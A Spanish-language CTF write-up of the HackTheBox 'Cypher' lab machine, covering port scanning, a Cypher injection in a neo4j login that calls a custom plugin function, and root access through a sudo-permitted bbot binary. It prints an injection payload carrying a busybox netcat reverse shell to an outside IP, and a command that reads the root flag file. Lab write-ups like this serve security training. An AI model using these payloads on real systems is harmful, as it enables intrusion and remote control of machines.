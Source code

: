 ```yaml
---
title: Cypher - HackTheBox Season 7
date: 2025-03-09 11:00:00 +0000
categories: [Labs & CTF, Write Up, Hackthebox]
tags: [Linux, CTF, Write Up, Hackthebox]
image:
  path: /assets/img/writeups/hackthebox/cypher_htb_s7/cypher.png
  alt: HackTheBox
description: >
  Guía en español para Cypher - HackTheBox Season 7
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


## Escaneo de puertos

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-05 20:19 CET
Nmap scan report for cypher.htb (10.10.11.57)
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Puerto web 

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image.png)

En el portal web encontramos lo que parece una aplicación que utiliza grafos para mostrar la información sobre la superficie de ataque de un objetivo o empresa.

Si hacemos click en probar el demo nos redirige a un portal para iniciar sesión.

Probando inyección básica para probar el login vemos lo siguiente:

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-1.png)

Vemos que efectivamente tenemos posibilidad de inyectar comandos en el portal web pero la base de datos (como era de esperar por la naturaleza de la aplicación) es de tipo NOSQL, es neo4j y se basa en bases de datos para grafos.

Tras un rato probando direntes inyecciones de tipo cypher no conseguí nada efectivo.

[Cypher inyections cheatsheet](https://pentester.land/blog/cypher-injection-cheatsheet/)

## Fuzzing de directorios 

Mientras tanto realizamos un fuzzing de directorios sobre la web y por suerte encontramos una ruta que parece ser interesante.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-2.png)

Dentro encontramos un archivo `.jar` con nombre apoc-extensión que puede ser potencialemente valioso ya que se trata de una extensión utilizada por neo4j.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-3.png)

Al abirlo en un decodificador online de jar encontramos que efectivamente se trata de un plugin para la base de datos neo4j.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-4.png)

Dentro del código vemos una clase interesante que añade una función para hacer petciones HTTP y devuelve el estado de la misma.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-5.png)

## Inyección cypher en neo4j

Para hacer uso de esta función customizada en la base de datos necesitamos llamarla con el prefijo `custom.` y el nombre de la función, pero antes debemos fijarnos en como toma el valor del nombre de usuario la base de datos y para esto podemos servirnos del error obtenido en Burp.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-6.png)

Sabiendo que esto es así podemos crear el payload de inyección y probarlo.

```bash
a' return h.value as a UNION CALL custom.getUrlStatusCode("http://10.10.16.73:80;busybox nc 10.10.16.73 4444 -e /bin/bash;#") YIELD statusCode AS a RETURN a;//
```

Utilizamos la revshell con busybox ya que parece que el sistema no tiene nc por defecto o no lo tiene referenciado en el PATH.

> Dato : busybox es un binario multi-herramienta común en sistemas embebidos o con recursos limitados. Muchas distribuciones minimalistas (como routers, IoT o contenedores) no incluyen nc independiente, pero sí busybox, que integra nc entre otras utilidades.
{: .prompt-info}

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-7.png)

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-8.png)

Ahora tenemos acceso a la maquina como el usuario neo4j.

Tras un rato mirando archivos encontramos algo interesante, unas credenciales de acceso.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-9.png)

> Nota : Este usuario no tiene privilegios para acceder a la user flag.
{: .prompt-warning}

## Acceso como usuario

Probando las credenciales encontradas con el usuario `graphasm` por ssh tenemos acceso a la maquina.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-10.png)

### User flag

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-11.png)

## Escalada de privilegios

Haciendo una comprobación básica de permisos sudo vemos que tiene permisos root en la ejecución de cun binario llamado `bbot`.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-12.png)

[BBot Github](https://github.com/blacklanternsecurity/bbot)

Parece que BBot es una herramienta de reoconocimiento automatizada para la exploración de vulnerabilidades en aplicaciones web.

En la wiki buscando que módulos tiene que puedan ser útiles encontramos las yara rules.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-13.png)

Esto nos permite cargar reglas yara para buscar en el código de la aplicación web. 

El plan es indicar que la flag como root.txt es un fichero de reglas yara para que este lo cargue ya que tiene privilegios root.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-14.png)

Parece que carga los datos del fichero pero no muestra nada de las reglas.

Buscando más información en los parámetros de uso de BBot encontramos un parámetro llamado `-d` que basicamente es igual a un clásico `--verbose`.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-15.png)

Esto nos mostrará más información en el proceso de carga de las reglas.

> Nota : El parámetro marcado con una flecha no lo usé pero es muy útil ya que para el escaneo antes de ser ejecutado pero siempre podemos pararlo manualmente con Ctrl+C.
{: .prompt-info}

Si ahora ejecutamos el comando con el parámetro `-d` podemos ver que se está cargando el archivo de la flag como una regla yara y muestra el contenido de la misma.

```bash
sudo /usr/local/bin/bbot -cy /root/root.txt -d
```
### Root flag

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-16.png)
